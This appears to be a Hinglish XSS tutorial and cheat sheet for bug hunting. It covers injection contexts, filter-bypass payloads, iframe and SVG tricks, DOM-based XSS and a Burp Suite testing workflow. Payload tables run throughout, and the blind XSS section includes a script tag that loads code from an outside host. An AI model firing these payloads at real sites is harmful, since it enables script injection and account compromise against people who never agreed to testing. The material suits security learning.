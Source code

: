 # Hacker Plan

### ✅ Step 1: XSS ka DNA — Reflection + Execution

XSS hone ke liye do cheezein zaroori hain:

- Reflection → Tumhara input page pe visible ya hidden form mein aaya

- Execution → Browser ne us input ko text nahi, code samjha

### 🧠 Tip:

Agar input sirf dikh rahi hai (text), to XSS nahi
Agar input JS ki tarah run ho rahi hai — boom! Alert chala to XSS confirmed!

---

### ✅ Step 2: 6 Contexts Jahan XSS hota hai

| Context Name            | Example Reflection              | XSS Payload                 |
| ----------------------- | ------------------------------- | --------------------------- |
| HTML                    | `<div>input_here</div>`         | `<script>alert(1)</script>` |
| Attribute               | `<img src="input_here">`        | `x" onerror="alert(1)`      |
| JS Context              | `var a = "input_here";`         | `";alert(1);//`             |
| URL                     | `<a href="input_here">`         | `javascript:alert(1)`       |
| Event Handler           | `<button onclick="input_here">` | `alert(1)`                  |
| Comment / Style / Title | `<!-- input_here -->`           | XSS not possible mostly     |


🧠 Tip:
Pehle inspect karo ya page source check karo — kis context mein input reflect ho rahi hai, uske hisaab se payload banao.

---

### ✅ Step 3: Bypass Techniques

| Bypass Type        | Payload Example                                                        |
| ------------------ | ---------------------------------------------------------------------- |
| Tag-based          | `<svg/onload=alert(1)>`, `<iframe srcdoc="<script>alert(1)</script>">` |
| Encoding           | `%3Cscript%3Ealert(1)%3C/script%3E`                                    |
| Broken Tags        | `<scr<script>ipt>alert(1)</scr<script>ipt>`                            |
| Event Bypass       | `autofocus onfocus=alert(1)`                                           |
| Attribute Breaking | `x" onmouseover="alert(1)`                                             |
| HTML Entity        | `&lt;svg/onload=alert(1)&gt;`                                          |

Tip:

Jab <script> block ho, to svg, iframe, math, img, input, body, details, select — sab test kar.

---

### ✅ Step 4: IFRAME ka Use XSS mein
📌 Purpose:
Hidden XSS run karne ke liye

Other payloads inject karne ke liye (CSP bypass / clickjacking etc.)

✅ Example Payload:

```<iframe srcdoc="<script>alert('XSS')</script>"></iframe>```

srcdoc iframe ka andar ka HTML define karta hai

Yahan <script> tag directly run hota hai

🧠 Note:

iframe payloads mostly HTML context mein use hote hain — ya jab normal tags block ho jaayein

---

### ✅ Step 5: SVG ka Use XSS mein
📌 Purpose:
<script> tag block ho to alternate route

SVG browser ke liye trusted hota hai (graphics tag hai)

---

### Step 6: DOM-Based XSS Samajh
📌 Jab JS code input uthakar page mein inject karta hai

🔍 Jaise:

```let q = location.hash;```
```document.getElementById("result").innerHTML = q;```

✅ Exploit:

```http://example.com/#<img src=x``` ```onerror=alert(1)>```

🧠 DOM XSS ka source hota hai: location, location.hash, document.referrer, etc.

---

### ✅ Step 7: Blind XSS

📌 Jab tu payload daale, alert tere samne nahi chalta — lekin backend user (admin) ke saamne chalta hai.

Example Payload:

```<script src=//xss.habib.com/x.js></script>```

🧠 Use tools like XSSHunter, Interactsh, ya apna webhook.site

---

### ✅ Step 8: XSS Detection via BurpSuite

- Intercept request
- Send to Repeater
- **Inject payloads in:**

- Query parameters
- Headers (User-Agent, Referer)
- POST body
- Cookies
- Check Reflection

Match context → fire payload

---
